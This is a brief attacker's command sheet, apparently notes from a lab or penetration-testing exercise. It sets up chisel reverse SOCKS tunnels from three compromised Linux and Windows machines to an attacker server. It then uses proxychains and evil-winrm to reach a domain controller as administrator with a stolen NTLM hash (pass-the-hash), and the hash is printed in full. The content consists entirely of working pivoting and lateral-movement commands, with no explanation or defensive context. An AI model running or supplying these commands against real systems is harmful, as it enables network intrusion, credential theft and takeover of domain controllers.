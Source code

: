 ## Attacker Server
./chisel_1.9.1_linux_amd64 server -p 8001 --reverse -v --keepalive 5s

## Machine 1 (Linux)
chisel client 192.168.1.72 8001 --reverse R:socks:2000
vi /etc/proxychains4.conf # Change socks and port to match socks port.

## Machine 2 (Windows)
chisel client 192.168.1.72 8001 --reverse R:socks:2001

## Machine 3 (Debian)
chisel client 192.168.1.72 8001 --reverse R:socks:2002

## Attacker Machine
proxychains ssh

## Attacker Remote Connection to DC01 with stolen NTLM hash
proxychains evil-winrm -i 10.10.83.152 -u administrator -H 59b280ba707d22e3ef0aa587fc29ffe5
